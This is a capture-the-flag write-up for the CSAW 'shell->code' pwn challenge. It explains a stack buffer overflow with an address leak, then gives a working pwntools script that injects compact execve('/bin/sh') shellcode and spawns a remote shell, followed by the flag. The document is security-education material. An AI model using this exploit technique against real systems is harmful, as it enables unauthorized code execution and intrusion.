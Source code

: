 ## shell->code 100 (Pwn)

### Solution

The binary doesn't have NX enabled, it first ask for two 15 bytes input on stack, and then ouput the address of node2 on stack (leak), finally ask for your initials and has a 29 bytes buffer overflow.

For these 29 bytes, the return address starts at `buf+11` and we can easily overwrite then return to the shellcode on stack. The problem is that we have only 15 bytes for each buffer, not sufficient for a full `execve()` shellcode, and the leak comes after we input our shellcodes, so I can't chain the buffers together.

Finally I put "/bin/sh" after the return address, and making the shellcode fit inside 15 bytes.

### Exploit
```python
#!/usr/bin/env python3
from pwn import *
context(arch="amd64")

r = remote("pwn.chal.csaw.io", 9005)

sc = """
    mov rdi, rsp
    /* call execve('rsp', 0, 0) */
    push (SYS_execve) /* 0x3b */
    pop rax
    xor esi, esi /* 0 */
    cdq /* rdx=0 */
    syscall
"""
r.sendline(asm(sc))
r.sendline("x")
r.recvuntil("node.next: ")

leak = int(r.recv(14)[2:], 16)
r.sendline(b"a" * 11 + p64(leak + 0x28) + b"/bin/sh\x00")
r.interactive()
```

### Flag

```
flag{NONONODE_YOU_WRECKED_BRO}
```
